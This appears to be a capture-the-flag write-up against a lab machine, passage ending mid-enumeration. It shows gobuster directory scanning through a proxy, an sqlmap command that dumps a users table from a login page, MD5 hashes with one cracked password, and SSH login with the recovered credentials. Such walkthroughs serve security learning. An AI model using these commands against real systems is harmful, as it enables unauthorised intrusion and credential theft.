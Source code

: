 
`/littlesecrets-main` directory discovered. 

added the target ip + port as a proxy and navigated to directory.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552751539414_image.png)


we have a login page

gobuster enumeration of files

    gobuster -u http://127.0.0.1:8080/littlesecrets-main/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -p http://192.168.56.117:31337 -x .php,.bak,.txt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552752225280_image.png)


discovered `/login.php`, `/logs.php`


Lets try to enter this login page via `sqlmap`

    sqlmap -u http://127.0.0.1:8080/littlesecrets-main/login.php --dbms=mysql --proxy=http://192.168.56.117:31337 --data="user=adm&pass=passw" --dump users --level=5 --risk=3

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552751759637_image.png)


after a bit of time we are able to decode the `pinky_sec_db`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552829310161_image.png)


the hashes look like md5 and with a quick decryption of them at https://www.md5online.org/md5-decrypt.html we have credentials.


    pinky:f543dbfeaf238729831a321c7a68bee4 = [not found on md5online]
    pinkymanage:d60dffed7cc0d87e1f4a11aa06ca73af = 3pinkysaf33pinkysaf3

since it looks like we have a `mange` hash lets try and SSH to box

SSH

    ssh pinkymanage@192.168.56.117 -p 64666

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552830412600_image.png)


sudo -l

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552830448974_image.png)


search for hidden files:


    find ./

![](https://d2mxuefqeaa7sj.cloudfront.net/s_29DA7847DA9F5D7FD23319910669BFE652E62C63CA3F9838830C6C3BAEA7FEAE_1552830650686_image.png)
